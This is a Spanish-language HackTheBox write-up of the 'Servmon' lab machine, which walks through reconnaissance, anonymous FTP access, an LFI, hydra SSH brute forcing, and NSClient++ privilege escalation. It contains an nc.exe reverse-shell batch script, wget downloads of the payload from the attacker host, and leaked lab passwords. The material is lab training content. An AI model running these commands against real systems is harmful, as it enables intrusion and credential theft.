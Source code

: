 ```yaml
---
title: HackTheBox - Servmon
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'RCE Webmin (CVE-2019-12840)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Servmon/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Servmon Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, RCE Webmin (CVE-2019-12840)**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Servmon/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Servmon/02-versions.png)

* Puntos principales:
    + [x] Podemos acceder de forma anónima al servicio FTP.
    + [x] Tenemos dos sitios web: **HTTP - 80 | HTTPS - 8443**
    + [x] El servicio SSH se encuentra habilitado

Inspeccionamos el servicio **FTP** en buscar de cualquier información y la descargamos

```bash
❯  ftp 10.10.10.184
Name (10.10.10.184:kali): anonymous
ftp> dir
02-28-22  07:35PM       <DIR>          Users
ftp> cd Users
ftp> dir
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
ftp> cd Nadine
02-28-22  07:36PM                  168 Confidential.txt
ftp> get Confidential.txt
ftp> exit

❯ cat Confidential.txt

Nathan,
I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
Regards
Nadine
```

Aquí nos mencionan que existe un archivo **passwords.txt** en el escritorio del usuario nathan.

c. Al buscar por vulnerabilidades del servicio **HTTP** llegamos a un [LFI](https://www.exploit-db.com/exploits/48311)

![](/assets/images/HTB/Easy/Servmon/03-lfi.png)

Una vez obtenemos el fichero antes mencionado, hacemos fuerza bruta en el servicio **SSH** con hydra a los dos usuarios (nathan y nadine)

```bash
❯ hydra -L users.txt -P passwords.txt ssh://10.10.10.184 -t 4

[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
```

### Escalada de Privilegios 💹

a. Al enumerar el sistema, encontramos el directorio 'C:\Program Files\NSClient++' y si buscamos vulnerabilidades asociadas, encontramos una para [escalación de privilegios](https://www.exploit-db.com/exploits/46802)

Aquí usan el servicio **https** del puerto `8443`, y para llevar acabo este exploit debemos tener en cuenta múltiples puntos

1. Obtenemos la contraseña actual

    ```bash
    nadine@SERVMON C:\Program Files\NSClient++>.\nscp web -- password --display
    Current password: ew2x6SsGTxjRwXOT
    ```

2. De primeras nos seremos capaces de acceder al servicio **NSClient++** 

    ![](/assets/images/HTB/Easy/Servmon/04-error.png)

    > Para solucionar esto debemos realizar Local Port Forwarding: `sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@<IP Servmon> -L 8443:127.0.0.1:8443`
    {: .prompt-tip }


3. Ahora, debemos descargarnos [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) y creamos un fichero .bat para entablar una reverse shell

    ```bat
    @echo off
    C:\temp\nc.exe -e cmd <tun0 IP> 443
    ```

    * Transferimos estos ficheros al directorio **`C:\temp`**

        ```cmd
        ❯ python -m http.server 80
        -----------------------------------------------------------------
        nadine@SERVMON C:\>mkdir temp
        nadine@SERVMON C:\temp>powershell
        PS C:\temp> wget http://<tun0 IP>/nc.exe -OutFile "./nc.exe"
        PS C:\temp> wget http://<tun0 IP>/test.bat -OutFile "./test.bat"
        ```

4. Nos autenticamos en el servicio NSClient++ y lo configuramos para ejecutar el script **test.bat**

    ![](/assets/images/HTB/Easy/Servmon/05-script.png)

    * Nos ponemos en escucha con **nc**, reiniciamos NSClient++ y luego damos clic en el apartado `Queries`

> En caso de no recibir la reverse shell reiniciamos la **Máquina Servmon**
{: .prompt-warning }

Después de todo este proceso recibimos la reverse shell

```bash
❯ nc -lvnp 443                                                                                            
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.184] 50986
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
```